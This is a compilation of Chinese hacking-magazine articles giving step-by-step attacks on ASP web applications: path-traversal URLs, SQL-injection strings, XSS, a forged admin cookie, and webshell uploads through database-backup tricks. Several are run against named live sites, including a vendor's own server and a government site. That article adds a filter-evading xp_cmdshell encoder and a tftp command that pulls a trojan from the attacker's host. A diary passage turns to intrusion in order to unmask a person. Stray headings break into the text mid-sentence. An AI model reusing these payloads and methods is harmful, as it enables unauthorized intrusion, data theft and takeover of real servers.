在功能上我感觉这个论坛是仿照的动网，而且不比它差多少，不过在安全性上却相差甚远，所有的参数几乎都没有过滤。上面只是简单地分析了部分漏洞，其实还是有很多其他漏洞的，只是比较鸡肋，在这里没提罢了。在写程序时应该非常清楚一点，那就是所有的参数在一定的条件下都是具有危害性的。所以参数必须要过滤，还有一点就是逻辑上不要考虑不足，不然也会出现问题。只要做到这两方面，那系统的安全性应该会大大提高了。

> 编辑点评：
> 未看过人文章，小编吓了一身冷汗，这个论坛可谓是“囊括所有经典漏洞于一身”呀，该有的都有了，真是无语。
> 按照小编的经验，这个论坛肯定是“一线程序员”开发的，只讲求功能上的完善，却丝毫不注意安全性能；按照这样的想法，我们玩安全的以后可以去给他们做安全顾问，哈哈！

## 新云下载系统漏洞 webshell

### —— 利用新云下载系统任意文件下载漏洞拿 Webshell

- 从本文你可以学到：
- 1. 新云下载系统产生的原因
- 2. 由漏洞进而得到 Webshell

最近在网上逛了一下，无意中看到了新云下载系统 2.1SP1 任意文件下载漏洞的公布，而且还是 ACCESS 和 SQL 版通吃的，于是就拿来和小菜们一起分享。我们先看下漏洞成因，看下源码，漏洞成因是发生在 `downfile.asp` 文件上。由于 `flash/downfile.asp` 文件过滤不严，从而导致可下载任意文件。先看下面一句代码：

```asp
url = Replace(Replace(Replace(Request("url"), "..", ""), "%", ""), "\\", "/")

变量url从客户端提交的路径获取，仅仅过滤了".."、"%"和"\"

If Len(url) > 3 Then
  If Left(url,1) = "/" Then
    Response.Redirect url
  End If
  If InStr(url, ":") > 0 Then
    Response.Redirect url
  End If
End If
```

# 新闻练练看

```asp
strUrl = Left(url,10)
If InStr(strUrl,"http://") > 0 Then
    Response.Redirect url
End If
If InStr(url,"../") > 0 Then
    strPath = Server.MapPath(".") & "\" & url
    strPath = Replace(strPath,"/","\")
    Call downThisFile(strPath)
Else
    Response.Redirect url
End If
End If
```

以上代码也就是说，如果在 url 中包含 `../` 会被转换成 `./`，然后跳转。我们再看下句代码：

```asp
fileName = split(thePath,"\")(UBound(split(thePath,"\")))
```

我们可以知道下载的文件名是以 `\` 为标记被分割的，懂代码的朋友都应该知道怎么利用了。所以我们可以构造以下利用语句，提交就可以任意下载想要的文件，下载什么文件呢？当然是下载我们敏感的 `conn.asp` 文件啦。里面包含有数据库等重要信息。所以我们构造的利用语句可以为：`flash/downfile.asp?url=uploadfile/../../conn.asp`，也就是下载它的 `conn.asp` 文件，读取里面的数据库信息，从而可以下载数据库或得到数据库的连接信息，为下一步做准备。如果想要下载其他文件，就把 `conn.asp` 改名为想要下载的文件名即可，比如 `index.asp`。同时，上面也有了这个漏洞的利用工具，原理也是一样，也是下载 `conn.asp` 文件。如图 1，只要填上网址点“down conn.asp”即可。

下面我们来看看这个漏洞的利用，在 Google 中搜索以下关键字：**关于本站 - 网站帮助 - 广告合作 - 下载声明 - 友情链接 - 网站地图 - 管理登录**，如图 2，约有 194,000 项之多，随便找一个打开，把构造语句 `flash/downfile.asp?url=uploadfile/../../conn.asp` 提交到网站根目录，就可以下载 `conn.asp` 文件了，如 `http://www.mobile-home.cn/flash/downfile.asp?url=uploadfile/../../conn.asp`，如图 3。

看定义数据库类别——`Const isSqlDataBase = X`，若 X 为 1 则是 SQL 数据库，X 为 0 则是 Access 数据库。俺下的是 Access 数据库，打开看到数据库连接地址为：`db = "\dffunidmaksim3005.mdb"`，如图 4。把它接到网站根目录，如：`http://www.mobile-home.cn/dffunidmaksim3005.mdb`，我们就下载了它的数据库，如图 5。

然后就是用数据库浏览器打开，找到 `NC_Admin` 的表名就可看到管理员的用户名和 MD5 密码，接着就是到 `www.cmd5.com` 破解出了密码为 `www.sina.com.cn`，如图 6、图 7 所示。

接下来就是登录后台了，在首页右下角有个“管理登录”的链接，省去了我们找后台的麻烦，直接点击就进入了。如果管理员删了这个链接，那么默认是在 `/admin/admin_login.asp` 这个路径，或者用工具找到，如图 8 是我进的后台。

我进了后台。在添加广告处有上传图片的功能，在数据库处理处有数据库备份的功能，相信刚出生的菜鸟也知道怎么做了。立马上传一匹 jpg 格式的 asp 马儿，顺利得到了 jpg 文件的地址为：`adfile/UploadPic/2006-11/200611722193674644.jpg`，如图 9。

来到备份数据库处，在当前数据库路径处填上 jpg 格式木马文件的地址，如：`/adfile/UploadPic/2006-11/200611722193674644.jpg`，备份数据库名称随意写个 asp 格式的文件名，如图 10。

点“备份数据库”，成功后就会显示出备份的数据库的路径，也就是咱的网马了。成功拿到了 WebShell，如图 11。至于提权不是本文重点。

如果是 SQL 数据库呢，那就用 Windows 2000 的“SQL 查询分析器”连接吧，俺的是 XP，就下了个“SQL 查询分析器分离版本”。打开 `conn.asp` 文件，里面有连接的用户名密码，如图 12 所示；其中的 `SqlLocalName="(local)"` 中 `local` 表示用的是站 IP，可以通过 `ping www.xxx.com` 来得到它的 IP，然后用“SQL 查询分析器”连接就是了，如果成功的话那就恭喜你了。但郁闷的是俺连接了好几个都弹出如图 13 所示的错误，不知怎么的，还得请教高手。

还有的是，如果对方改变了数据库连接文件名的时候，怎么办呢？办法还是有的，不是可以下载任意文件吗？我们可以下载它的首页，它一般不会把每个页面里的文件名都改了吧，如图 14，看到没有，看源代码，你下载一个 asp 文件，里边有包含代码。例如：`<!--#include file="数据库链接文件"-->`，然后我们就可以照着它的文件名而下载了。

到此本文结束了，由于技术菜，写得不对的地方有望高人指正。希望大家别玩过火哦。有问题到 `www.nohack.cn/bbs/` 谈~！（文中用到的工具在光盘中有收录）

> 编辑点评：就笔者看来，系统的这个漏洞产生得真够冤的，自己是个下载系统，却把自己的代码给下载了，还被人拿到数据库连接文件，甚至可以放出管理员密码。进入后台，然后得到 WebShell。另外，作者遇到的错误可能是数据库的连接 IP 做了限制，可以在本地搭建测试环境做测试。

# Shop 系列购物系统安全漏洞浅析

曾云好（湖南长沙）

- 1. Shop 系列购物系统的几个安全漏洞
- 2. 漏洞的分析方法

Shop 系列购物系统是由北京易思公司开发的一套基于 ASP 的商务系统，目前主要由 NT、XP、V8 三个系统构成，网络上有一些系统是用它来搭建的。既然说是商务系统，安全性自然应该要比一般系统高吧，但技术总是向前发展的，再加上程序员写系统时的一些疏忽，所以多少会出现一些问题的。

## 一、XP、V8 跨站

`gbook.asp` 和 `fankuixpluyan.asp` 分别是 V8 和 XP 的留言模块，不过它们并不处理用户输入的数据，而把数据传送给 `fksave.asp` 和 `xpfksave.asp` 文件去处理。下面就是它们两个文件处理用户数据的代码：

```asp
iname=request.Form("name")
iqq=request.Form("qq")
iemail=request.Form("email")
iurl=request.form("url")
isex=request.form("sex")
icontent=request.form("content")
...
set rs=server.createobject("adodb.recordset")
rs.open "select * from shop_guestshop where (id is null)",conn,1,3
rs.addnew
rs("name")=iname
rs("qq")=iqq
rs("email")=iemail
rs("url")=iurl
rs("sex")=isex
rs("content")=icontent
rs("time")=now()
rs.update
rs.close
set rs=nothing
session("antry")=""
...
end if
```

直接对数据库进行了操作，导致漏洞出现。

上面的漏洞就因为没有得到过滤而暴露出来了，但是我在测试官方网站时并没有得到代码分析中的那些跨站漏洞，而我下载的版本却是最新的。可能是官方已经发现了这个漏洞，把它补上了。不过经过我多次的黑箱测试，发现官方虽然经过过滤，但依然存在漏洞。

留言系统的版面如图 1 所示，在这里官方网站虽然过滤得很干净，但是看代码中，网址这个输入框的数据却没有得到过滤，而且也没有确认用户输入的数据是否符合网址的格式。在网址中输入 `<script>alert("网站没有过滤，BY 曾云好")</script>` 就出现了我们的跨站效果了，如图 2。

另外，既然是商务系统，那肯定存在在线支付这个功能了，处理这个功能是由 `pay.asp` 接收数据，再由 `Checklist.asp` 文件处理，它是这样处理数据的：

```asp
v_rcvname=Request.Form("v_rcvname")  ' 接收来自订单的所有订单信息
v_rcvaddr=Request.Form("shouhuorendizhi")
v_rcvtel=Request.Form("shouhuorendianhua")
v_rcvpost=Request.Form("shouhuorenyoubian")
v_ordername=Request.Form("dinghuorenxingming")
v_amount=Request.Form("v_amount")

<input type="hidden" name="v_mdsinfo" size="100" value="<%=f%>">
<input type="hidden" name="v_mid" value="<%=v_mid%>">
<input type="hidden" name="v_oid" value="<%=v_oid%>">
<input type="hidden" name="v_rcvname" value="<%=v_rcvname%>">
<input type="hidden" name="v_rcvaddr" value="<%=v_rcvaddr%>">
<input type="hidden" name="v_rcvtel" value="<%=v_rcvtel%>">
<input type="hidden" name="v_ymd" value="<%=v_ymd%>">
<input type="hidden" name="v_rcvpost" value="<%=v_rcvpost%>">
<input type="hidden" name="v_amount" value="<%=v_amount%>">
```

```asp
nclassname=rs("shopxpse_name")
set rs2=server.CreateObject("adodb.recordset")
rs2.open "select shopxpse_name,shopxpse_id from shopxpse_type where shopxpbe_id="&rs("shopxpbe_id")&" order by shopxpse_idorder",conn,1,1
do while not rs2.eof
response.write "<A href=xpCatalog_xpsmallDesc.asp?action_key_order=small&shopxpbe_id="&rs("shopxpbe_id")&"&shopxpse_id="&rs2("shopxpse_id")&">参数没有过滤就显示在URL地址栏内"
loop
```

现在直接取得客户端的数据后，就直接显示在页面上了，那么就可以用来挂马了，如图 3 和图 4 所示。

可以看到参数是完全暴露在光天化日之下，要注入也是非常方便，如图 5 和图 6。因为参数直接在 URL 地址栏内显示，所以是可以直接用工具来注入的，如图 7 所示。不过在测试官方网站的时候发现这个漏洞也不存在，而其他采用这套系统的网站存在，难道又是官方把漏洞补上了？

## 二、XP 之注入

`xpCatalog_xpsmallDesc.asp` 文件是 XP 购物系统用于处理商品分类，在这里由于参数没有过滤，出现了注入漏洞，下面就是其处理代码。

```asp
dim shopxpbe_id, anclassname, shopxpse_id, nclassname
if request("shopxpbe_id")<>"" then
    shopxpbe_id=request("shopxpbe_id")
else
    shopxpbe_id=0
end if
if request("shopxpse_id")<>"" then
    shopxpse_id=request("shopxpse_id")
else
    shopxpse_id=0
end if
if not isempty(request("page")) then
    currentPage=cint(request("page"))
else
    currentPage=1
end if
set rs=server.createObject("adodb.recordset")
rs.open "select * from shopxp_btype where shopxpbe_id="&shopxpbe_id,conn,1,1
anclassname=rs("shopxpbe_name")
rs.close
rs.open "select * from shopxp_stype where shopxpse_id="&shopxpse_id,conn,1,1
```

## 三、NT 之注入

NT 系统是三个系统里功能最全面的，不过在 `product.asp` 中的数据没有处理，出现了注入漏洞。代码有：

```asp
<%
dim id
id=trim(request.QueryString("id"))  ' 取得id参数
if id="" then
response.Write "<script language='javascript'>alert('请先选择产品！');history.go(-1)</script>"
response.End
end if
%>

dim prename, company, intro, predate, graph2, description, remarks, price, rs2
set rs2=server.CreateObject("adodb.recordset")
rs2.open "select * from product where id="&id,conn,1,3  ' 没有经过滤操作了数据库
categoryid=rs2("categoryid")
sortsid=rs2("sortsid")
```

上面的代码没有经过任何的过滤就操作数据库，漏洞自然也就显现出来了，如图 8 和图 9 所示。对于 NT 和 XP 两个系统的注入漏洞，如果后台是采用 MSSQL 数据库，就可以先得到管理员的密码，然后上传一个图片格式的木马，最后利用数据库备份得到 WebShell，这是在 MSSQL 数据库系统的介绍上得到的信息。不过这是商务系统，MSSQL 数据库的系统需要购买才可以得到，所以没办法得到系统来做实验。

## 四、总结

其实从我下载回来的这三套代码来分析，它们都是没有一点安全性的。但是到了网上测试的时候发现，其实安全性非常地高。我下载的测试版，可能是官方修改了代码，只提供了功能方面，而把安全方面去除。只有通过购买才有可能把功能和安全都齐全的正式版本，这也许是一个很好的反盗版方法吧。虽然没有得到正式版本的代码，但是通过测试版，我知道了整套系统的结构及文件组成，使我成功地找到了正式版的一些漏洞。而且测试版只提供 Access 数据库，而正式版有 MSSQL 数据库，所以通过注入漏洞是可以得到 WebShell 的。

# 编辑点评

从作者对几个漏洞的分析可以看到，该版本没有丝毫的安全防范，但是作为一个购物系统，这好像不太可能。正像作者分析的一样，可能是正式版和提供下载的版本存在很多的差别，但是如果刻意提供一个有安全漏洞的版本给消费者，似乎缺乏商业道德，同样也会引起试用者的反感。希望不是如此，也希望开发者能够抓紧时间修补漏洞。

# 暴库 + 上传 + 后台欺骗

## 玩转廊坊供求信息网系统


- 从本文你可以学到：
  1. 廊坊供求信息网漏洞分析
  2. 实战廊坊供求信息网

测试版本：廊坊供求信息网 V5.0

“廊坊供求信息网”官方网站是 www.lf0316.cn，它发布了“廊坊供求信息网 V5.0”，本人某天找程序的时候突然看到这么一款，就 DOWN 一份下来研究研究。看了几个文件，发现三个漏洞，和大家一起分享！

## 一、暴库漏洞

本人看过数据库漏洞的原理，在学习的过程中曾经试过用暴库检测过某些网站，效果还不错。但是，自己研究的 ASP 程序中还没遇到过，总有点遗憾。不过，这次研究这套程序的时候，就有这个洞，也算了个心愿吧！这套程序有一个 conn.asp、一个 conn1.asp，这两个文件都是连接数据库文件，我在这两个文件里找了半天都没找到关键语句。连接数据库文件如果没有报错语句的话，那么我们就可以利用 %5c 来暴库了，但是有个限制条件是：要拿来暴库的文件，必须是在二级目录下的文件才可以暴库（也有人说一级目录下用“..%5c”来暴库可以成功，不过我没成功地暴过，这套程序用这个字符串来暴也不行）。这套程序除了管理员用的文件在 admin 目录下，其他的文件基本上都在一级目录。找了会儿，这个程序只有两个文件在二级目录下，而且只有一个可用，about 目录下有个叫 link.asp 的文件，在地址栏输入：http://目标地址/about%5clink.asp，就可以把目标地址的网站的数据库路径暴出来了，如图1所示。


再打开：http://localhost/data/zdfasl%23l@kk$.asp，如图2所示。


这个数据库没有防下载，用迅雷等下载工具可以下载下来，再用明哥的 domain 里的查看数据库的功能来查看（用明哥的工具可以不用改后缀直接看数据库结构和内容），这样就可以轻松拿到管理员的 MD5 加密密码。另外，这个数据库是以 ASP 为后缀的，大家应该都想到了吧，插个小马上去，再提交大马拿 WEBSHELL。

## 二、上传漏洞

漏洞出现在 admin 目录下的 upfile_flash.asp 文件，原理和动感购物商城的上传漏洞是一样的，而且文件没有判断是否有上传的权限，导致任何人都可以上传恶意文件。这里不详细介绍，有不懂的就到网上查一下牛人写的漏洞分析吧。

不过，本人在测试的时候发现了点问题！大家来看代码：

```asp
69-76行

'判断用户文件中的危险操作
sStr = ".getfolder., .createfolder., deletefolder., createdirectory, deletedirectory, saveas, wscript.shell, script.encode, 重命名, 修改, 属性, 文件浏览器, 新建, 复制, 成功, 参数错误, 服务器, 空间, 下载, "
sNOString=split(sStr, "|")
' 以空格做分割标志，分割字符
for i=0 to ubound(sNOString)
  '检查上传文件的所有字符
  if instr(sTextAll, sNOString(i)) then
    '如果存在上述的危险字符
    set filedel=server.CreateObject("Scripting.FileSystemObject")
    filedel.deletefile server.mappath(FileName)
    '就删除所上传的文件
    response.write "你的IP和时间已被记录，由于你曾多次使用该方法对系统进行非法攻击，我们将会把你的数据向公安网络监察机关报告！"
  end if
next
```

如果你上传的文件存在那些危险字符，那么管理员就要向网监报告呢……怕死了……所以，我们上传文件的时候记得，你的马一定不能存在上面的字符！用明哥的 DOMAIN 3.5 就可以了，它的小马 DIY.ASP 是不存在上面那些字符的。估计大家都用过 DOMAIN 吧，这里就不介绍了，不会的网上找。

## 三、后台验证 COOKIE 欺骗

在查看后台验证文件的时候，发现它的后台验证是用 COOKIE。让我们一起来看代码，先看 checkadmin1.asp 文件：

```asp
<%
if request.cookies("admincnmai")("power")<>1 then
  response.write "对不起，您的权限不足！"
  response.end
end if
%>
```

通过获取客户端传来的 cookie 值，判断 cookie 的 KEY power 是否为 1，如果不是，那么就认为权限不足。再来看 cookies.asp 文件：

```asp
if Request.ServerVariables("SERVER_NAME")<>request.cookies("admincnmai")("domain") then
  response.redirect "admin_login.asp"
end if

if request.cookies("admincnmai")("username")="" or request.cookies("admincnmai")("domain")="" or request.cookies("admincnmai")("diqu")<>188 then
  response.redirect "admin_login.asp"
end if
```

通过这两个文件组合起来，我们就可以构造 COOKIE 欺骗的值了，只要 COOKIE 的值为下面这一段就可以欺骗后台，直接拥有管理员的权限：admincnmai=domain=对应网站的域名&power=1&diqu=888&username=admin。


## 四、实战

好了，代码分析到这里结束，现在我们来实战一下。我在入侵官方网的时候发现它的暴库漏洞已经补了，而且上传文件已经被删除了。管理员还不是很傻嘛（之前有人入侵过那个网站）。啊，虽然把上传删了，但是我们还有 COOKIE 欺骗。我们要用到的工具是老头叔的 MyBrowser 欺骗工具。

打开 MyBrowser，点击“COOKIES”前面的那个球，然后在 COOKIES 里面输入：

```text
admincnmai=domain=www.lf0316.cn&power=1&diqu=888&username=admin;
```

并在 Address 栏里输入后台的首页（不是登录页面，是管理的首页），然后按下“转到”按钮，如图3。

OK，登录成功。后台有上传的页面，但是处理上传文件的页面已经被删掉了。还有备份数据库的地方，我试了一下，通过插马、备份数据库再提交大马的路是行不通的，我怎么提交都不成功，如图4。

于是，找到前台那边注册了个账号，发了篇文章出去（选择有图片的），然后就转到如图5的位置。

可是让我郁闷的是，传文件的时候找不到处理文件的页面 UPFILE.ASP，我又找了半天，没找到其他上传的地方。接近崩溃的时候，老大 LENK 上线了，然后把地址给他，让他帮忙搞下，他一分钟就搞定了。然后跟我说了句很受用的话，估计对和我一样的菜鸟们也比较受用的，如图6所示。

接老大说的，我找到了上传界面，如图7所示。然后上传了个带后缀的 JPG 马上去，如图8所示。把 JPG 马的地址复制下来，到后台备份处还原我们的马，可爱的界面就出来了，如图9所示。


这里要感谢一下我的老大 Lenk 和所有帮助我的朋友们。

> 编辑点评：很不错的一篇文章，在分析完系统漏洞后，能在实战中就遇到的问题灵活应变，正是合了 Lenk 的话：技术简单，思路重要！

# 攻入南方数据的大门


心雨

- 从本文你可以学到：
  1. 南方数据企业网站管理系统的漏洞分析
  2. 漏洞修补方法
  3. 分析漏洞能力

《南方数据企业网站管理系统》是南方数据（www.southidc.net）开发的网站管理系统，一套要卖几百块钱，是不是卖得贵就等于安全了呢？当然不是！从表面上看网站很安全，过滤了大部分有威胁的地方，但还是有些地方给忽略了，导致官方主站也被攻陷！

出现问题的地方是用户修改资料用的几个文件 UserCheckReg.asp、UserEdit.asp、UserEditPwd.asp。看看 UserEdit.asp 里有问题的代码：

```asp
UserName=trim(request("UserName"))  '将提交的值去掉空格赋给UserName

if UserName="" then  '只是判断UserName是否为空
...
Set rsUser=Server.CreateObject("Adodb.RecordSet")  '注册组件
sqlUser="select * from [User] where UserName='" & UserName & "'"  '数据库查询语句
rsUser.Open sqlUser,conn,1,3
...
Else
```

这个文件是用来修改用户资料的，没有进行身份验证，只是判断了变量 UserName 是不是为空，只要 UserName 为一个存在的用户名就可以显示资料修改的页面。更重要的是，提交变量 UserName 时没有做任何的过滤就放入数据库查询语句中，这样注入漏洞就出现了！在其它几个文件里也是 UserName 没做过滤！

在本地测试一下。先注册一个用户 admin，然后在浏览器里输入 `http://127.0.0.1/2/UserEdit.asp?UserName=admin`，因为使用的是 request() 来接受提交的值，那么可以用 GET 方法来提交。提交后显示修改资料的页面，如图1。


然后再输入测试注入点的语句：`http://127.0.0.1/2/UserEdit.asp?UserName=admin'and'1'='1`，显示同样的页面（因为 1 确实是等于 1 的嘛）；再输入 `http://127.0.0.1/2/UserEdit.asp?UserName=admin'and'1'='2`，显示的内容变了，提示找不到用户，如图2。


很明显是可以注入的，只要在 admin 后加 `'and'1'='1` 之间输入注入语句，就可以猜解到管理员账号密码了！用工具也可以，建议使用 NBSI，因为这样的注入，用明小子之类的是扫描不出来的！

另一个有漏洞的文件是后台备份数据库的地方。先来看看备份数据库的页面，如图3。


我们来备份一次数据看看，点确定提示成功！如图4。跟其它后台的备份一样，应该没有问题吧！但是当我们访问 2006-10-25.asa 的时候提示找不到，开始以为是我输入错了，又试了好几次都访问不到！于是来到 “Databackup” 文件夹下看了一下，发现问题了，如图5。


看到了吗？备份的 “2006-10-25” 存在，却没有扩展名！但是刚才明明显示的“备份数据库成功，备份的数据库为 D:\wwwroot\2\admin\Databackup\2006-10-25.asa”应该有问题！赶紧找出备份用的那个 Admin_DataBackup.asp 文件看看，果然有问题：


```asp
if CheckDir(bkfolder) = True Then  '用自定义函数 CheckDir 判断要备份的文件夹是否存在
    fso.copyfile dbpath,bkfolder&"\\"&bkdbname  '目录存在的话就执行备份语句，并没有修改文件名
...
response.write "<center>备份数据库成功，备份的数据库为：" & bkfolder & "\\" & bkdbname & ".asa</center>"  '提示备份成功，显示的文件却加了 .asa
```

首先用 CheckDir() 判断要备份的文件目录是否存在，存在的话 CheckDir=True 则执行备份语句 `fso.copyfile dbpath,bkfolder&"\\"&bkdbname`。看语句里并没有给 “bkdbname” 加上 `.asa`，这样只要备份的文件是存在的，那么备份成的什么文件名都不会变，可以直接备份成 asp 文件。虽然备份成功后会显示 “xx.asp.asa”，但实际文件还是 “xx.asp”。在本地试试看，先把一个 ASP 木马另存为 .gif 的格式上传，如图6。然后在数据备份的地方输入路径和要备份成的文件名，如图7。


# 新洞练练看

点确定，提示“备份数据库成功，备份的数据库为 D:\wwwroot\2\admin\Databackup\110.asp.asa”，如图8。

不要管显示的是什么，实际文件是没有 .ASA 的。我们直接访问 `http://127.0.0.1/2/admin/Databackup\110.asp`，便得到 webshell，如图9。

这只是在本地成功拿到 webshell，现在我们去看看官方有没有同样的漏洞。官网用的是另一套程序，但是却提供了我测试的那个版本的网上试用演示程序，如图10。

进去看了看，跟我测试的那个差不多，有的还提供后台试用的地方！嘿嘿，能进后台？这不正合我意！但是进了几个演示程序都有限制，不能上传文件，备份页面不能访问，如图11、图12。

但是最后还是找到一个没有任何限制的试用版本（人品好！）：“http://www.southidc.net/0791idcchen/”。这个没提供后台试用，但是默认的后台地址和账号密码没改，后台地址 “http://www.southidc.net/0791idcchen/admin/Login.asp”，用默认的账号 admin、密码 0791idc 登录，然后就和本地测试的一样。只是在传马的时候第一只不幸被杀了！换一只免杀的便拿到 webshell，如图13。

正好这套演示程序在官网的目录下，可以顺带黑了主站！如图14。


> 修补方法：

修补这两个漏洞也很简单：只要在 “UserEdit.asp” 里开头加上 `<!--#Include File="inc/Check_Sql.asp"-->` 就可以了，“Check_Sql.asp” 是程序带的防注入程序，在这里调用就可以了。还有备份的地方 `fso.copyfile dbpath,bkfolder& "\\" & bkdbname` 最后面直接加上 `& ".html"`，变成 `fso.copyfile dbpath,bkfolder& "\\" & bkdbname & ".html"`，这样备份的文件名不管改成什么，后面加上 “.html” 就不能直接备份成 .asp 得到 webshell。

当找到他们的客服 QQ 号说网站有漏洞的时候，他们似乎对自己的网站很放心，竟然不理我！算了，就这样了，反正我已经提醒了，以后出问题就怪不了谁了！删了马儿走人……

**编辑点评：** 这个管理系统的漏洞虽然不是很大，存在的 SQL 注射也算比较低级的了，可以得到管理员密码的 MD5 值，如果能结合 MD5 破解工具或者跑 MD5 的网站，成功进入后台，就可以比较简单地得到 WEBSHELL。

# 绕过多重限制继续注入

LCX 归来

分别两个月后，LCX 又回来了。我将在这个栏目里继续为大家服务。老话常说，三天不学习，赶不上刘少奇。我两个月没学习，估计普通读者的水平都不如了。两个月后再接触黑客知识，发现了一个现象：大家的注入水平现在都普遍在同一个层面上，高于普通黑客的差别在于白箱代码的阅读能力和思想性上了。如果暂且没有脚本的编程知识，那开拓一下思维，也许你的水平就会又提升一个档次了。不过，想开拓思维，读代码也许是最好的办法了。


- 从本文你可以学到：
  1. 如何整句赋值绕过限制注入
  2. vbs 脚本在入侵中的两例应用

最近给某一个政府网站做安全检测，当然是授权的了。这次入侵还是比较有意思的，过程给大家说一下。这个政府的网站 URL 先隐掉。找到了一个 sa 注入点，数字型的，在注入点后加 and

```text
user>0--
```

一试，爆出 “Syntax error converting the nvarchar value 'dbo' to a column of data type int”，回显错误也没有屏蔽。用 NBSI 也可以顺利地读出所有的库、列和字段值。

本来以为可以顺利搞定，可是现在问题来了。用 NBSI 无法读目录、执行命令，用工具或 Google 也无法找到后台。后来用手工测试了一下，发现了问题的所在。原来，注入点上过滤了单引号和一些常用的注入命令的关键字，最讨厌的是过滤了 master 这个 key。无论我用 `exec master.dbo.xp_cmdshell 'net user'--`，还是 `exec master.dbo..xp_cmdshell [net user]`，或者是类似的 `declare @a sysname select @a=0x(16进制的字符串) exec master.dbo.xp_cmdshell @a;--`，总会有一个限制条件作怪。里边注入后网页返回不是单引号附近有错，就是 “master、dbo...” 有错，然后就跳转到一个页面来吓我，说一行英文，大体意思是你的客户端 IP 是多少，你的行为属于非法，我们已记录，已发邮件给 webmaster。由于这个是政府网站，出于安全顾虑，我就不在这里抓图了，读者见谅。

绕过单引号好办，绕过其过滤的关键词，特别是 master，难办。由于是 sa 权限，总想拿下主机最高权限呀。要想用存储过程，一定要用到 master 的。后来在网上翻了下资料，有一种## 面经无故事

给整数赋值的方法引起了我的注意。大体意思是说，将 `master.dbo.xp_cmdshell "net user"` 这样的整句转为 16 进制，转换后为 `650078006500630020006D00610073007400650072002E00640062006F002E00780070005F0063006D0064007300680065006C006C00200022006E00650074002000750073006500720022002D002D00`，然后再套用这个语句：`DECLARE @S NVARCHAR(4000) SET @S=CAST(0x16进制语句 AS NVARCHAR(4000)) EXEC(@S)`。这样一来，语句就绕过了它过滤的单引号和 master、dbo……这四个关键词。

工欲善其事，必先利其器，先来做一个工具。我用 vbscript 写的，代码如下：

```html
<script language='vbs'>
sub sqlencode()
  Dim strTest
  strTest = form1.text1.value
  myHex = Str2Hex(strTest)
  document.write("<pre>DECLARE @S NVARCHAR(4000) SET @S=CAST(0x"&myHex&" AS NVARCHAR(4000)) EXEC(@S)</pre>")
end sub
Function Str2Hex(ByVal strHex)
  Dim sHex
  For i = 1 To Len(strHex)
    sHex = sHex & Hex(Asc(Mid(strHex, i, 1))) & "00"
  Next
  Str2Hex = sHex
End Function
</script>
<form name='form1' method='post'>
<p>请输入 SQL 语句，例子：</p><br>
<input type='text' name='text1' value='exec master.dbo.xp_cmdshell "net user"--' size=100><input type='submit' onclick=sqlencode() value='给我转!'>
</form>
```

运行后效果如图 1 所示。

那么 `exec master.dbo.xp_cmdshell "net user"--` 的注入语句就转化为 `DECLARE @S NVARCHAR(4000) SET @S=CAST(0x650078006500630020006D00610073007400650072002E00640062006F002E00780070005F0063006D0064007300680065006C006C00200022006E00650074002000750073006500720022002D002D00 AS NVARCHAR(4000)) EXEC(@S)` 这样的注入语句了。我试了一下，该网站返回了正常的页面，说明该语句成功了。


现在的做法就是用图 1 的工具，将注入语句改为整句赋值的方法了。先用 tftp 上传一个反弹木马，再运行它就可以了。tftp 上传的语句是“tftp -i gct myip muma.exe”，当然别忘记将自己端的 tftpd 服务器打开，对外开放 69 的 UDP 端口。一会儿工夫，muma.exe 下载完成了。正常情况下，在 tftpd 服务器上可以看到来连接的 IP，我将这个 IP 与政府网站的 Web IP 对照一下，就可以明白 Web 与 MSSQL 是否分离了。但是，tftpd 服务器上并没有显示出来。那再执行一下 muma.exe 吧，就是将 `exec master.dbo.xp_cmdshell [muma.exe]` 语句在图 1 的工具里再转一下后执行。不赖，不一会儿木马上线了。ipconfig 看一下，是内网 IP。还是无法判断我入侵的是否是 Web 站。再 echo 一个脚本列一下它的 IIS 站点吧，看看究竟是不是，代码如下：

```vbscript
Set ObjService=GetObject("IIS://LocalHost/W3SVC")
For Each obj3w in objservice
  If IsNumeric(obj3w.Name) Then
    ServerName=obj3w.ServerComment
    Set webSite = GetObject("IIS://LocalHost/W3SVC/" & obj3w.Name & "/Root")
    ListAllWeb = ListAllWeb & obj3w.Name & String(25-Len(obj3w.Name), " ") & obj3w.ServerComment & (":" & webSite.Path & vbCrLf)
  End If
Next
WScript.Echo ListAllWeb
Set ObjService=Nothing
WScript.Quit
```

运行完以后，这台反弹的肉鸡的 cmdshell 里就有了所有的站点名称和站点名称对应的物理目录了。这个政府网站赫然在列。因此来讲，入侵检测圆满结束了。

**编辑点评：** 作者有思考，同时给出了解决办法，还为了方便操作写了两个小工具，这样文章就比较完整了。在入侵过程中，vbs 是很有用的。vbs 算一个粘合剂的东西了，它可以粘合其它的工具来实现你的“只有想不到，没有做不到的”。


## 8月22日 雨

三个月了，我一直在隐身，看着 QQ 上的头像一个又一个地变亮，然后一个又一个地变灰，不论是谁的消息我都是沉默。在他们的眼中，我似乎消失了。其实我在等，等一个人，等一个头像的亮起。

今天中午，忽然收到一个陌生人的请求，本来是要反应的，但附加消息“无言也许是对的”却让我忍不住看了一下这个号码的资料，昵称是“霖雪”，莫非是……？我接受了请求，但接下来的好长时间，却没有收到任何消息，直到头像变暗。

世界上总有很多事是巧合的，也许这只是一个陌生人的巧合，但 QQ 所在的 IP 地址我还是记了下来。在头像暗过之后，我用老兵的 Domain 工具查了一下绑在该 IP 上的域名，结果只得到一个网址。在浏览之后，发现这是一个学校的网站。再回头看一下我截取的 IP 图像，其 IP 后跟了一个 5 位数的端口，那么这个地址所在的服务器也许就是一个代理，既代理了外网的访问，又代理了内网的访出。学校？忽然想起有个好友的 QQ 留言，莫非其实……的是……？也许不是？在进退犹豫之间，一种沉寂了很久的欲望开始复苏：拿下这台服务器，查出 QQ 主人的真实身份。


时间又过了两个小时，在一次又一次的失败后，我的范围也越来越小了。BLOG—博客系统，只剩下这一个了，而所打开的 BLOG 首页中竟然全是“.html”后缀的页面。切！这么 BT！不过，这个 BLOG 好像是多用户的，那么我也来注册一个，看能否找到一些漏洞。在点击“注册”后，我发现了一个熟悉的“服务条款”，这不是 OBLOG 的吗？注册成功直奔个人管理页面，嘿嘿，真的是 OBLOG！

在某人走后的那段时间里，我疯狂地入侵了一个又一个服务器，甚至我调谐。在那段以代码为伍的日子里，我发现了 OBLOG 的提权漏洞，不知道此 OBLOG 是否存在此 BUG？进入个人管理平台中的“发表照片”版块，先抓了一个正常的提交，然后将抓到的数据包中的 log_pics 值更改为：`UploadFiles%2F2006-8%2F53455200.jpg'and+1=(select+@@version)--jpg%0D%0A`，再用工具提交，看到了服务器的一些信息，SQL Server 2000 + Windows NT 5.2！看来真的存在这个漏洞，这下偶就放心了。

